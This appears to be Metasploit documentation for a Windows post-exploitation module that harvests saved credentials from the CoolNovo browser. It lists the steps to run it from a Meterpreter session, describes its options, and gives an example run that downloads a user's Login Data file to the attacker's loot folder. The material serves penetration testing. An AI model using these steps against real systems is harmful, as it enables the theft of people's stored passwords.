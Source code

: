 ## Module Description

This post-exploitation module gathers artifacts found on coolnovorelated folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/coolnovo
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf post(windows/gather/credentials/coolnovo) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Coolnovo's parent folder found
[*] Coolnovo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\MapleStudio\ChromePlus\User Data\Default\Login Data
[*] Coolnovo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521113236_default_192.168.56.106_coolnovoLoginDa_081407.bin

[+] File with data saved:  /root/.msf4/loot/20210521113236_default_192.168.56.106_EXTRACTIONSLogin_425391.bin
[*] Coolnovo's parent folder found
[*] Coolnovo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\MapleStudio\ChromePlus\User Data\Default\Login Data
[*] Coolnovo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521113236_default_192.168.56.106_coolnovoLoginDa_739589.bin

[+] File with data saved:  /root/.msf4/loot/20210521113237_default_192.168.56.106_EXTRACTIONSLogin_857688.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```
